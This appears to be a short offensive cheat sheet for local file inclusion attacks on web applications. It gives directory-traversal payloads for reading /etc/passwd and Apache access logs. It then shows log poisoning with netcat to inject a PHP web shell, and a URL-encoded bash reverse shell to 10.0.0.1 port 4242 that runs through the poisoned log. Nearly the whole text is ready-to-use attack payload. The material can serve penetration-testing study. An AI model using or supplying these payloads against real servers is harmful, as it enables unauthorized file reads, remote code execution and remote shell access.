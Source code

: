 whenever we spot a URL for example
`http://www.test.com/?page=something.php`
``` bash
#test with: add or remove ../
../../../../../etc/passwd
#OR JUST SIMPLY:
/etc/passwd
```
### Apache
``` bash
../../../../../etc/passwd
#apache access logs
../../../../../var/log/apache2/access.log
#netcat log poison
nc -nv <IP> <PORT>
<?php system($_GET[‘cmd’]);?>
#Make a bash script reverse shell and encode it
#bash -c 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1'
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.1%2F4242%200%3E%261%27
#setup nc listener and add to url ../../../../../var/log/apache2/access.log&cmd=:
../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.1%2F4242%200%3E%261%27
```

